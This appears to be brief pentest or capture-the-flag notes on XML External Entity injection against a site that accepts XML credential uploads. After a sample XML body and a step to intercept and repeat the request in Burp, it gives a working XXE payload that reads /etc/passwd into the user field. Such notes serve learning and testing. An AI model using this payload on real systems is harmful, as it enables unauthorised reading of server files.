 - website that wants xml upload
```xml
<creds><user>username</user><password>password</password></creds>
```

- intercept in burp an repeat
	- with payload
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<creds> 
<user>&example;</user> 
<password>test</password> 
</creds>
```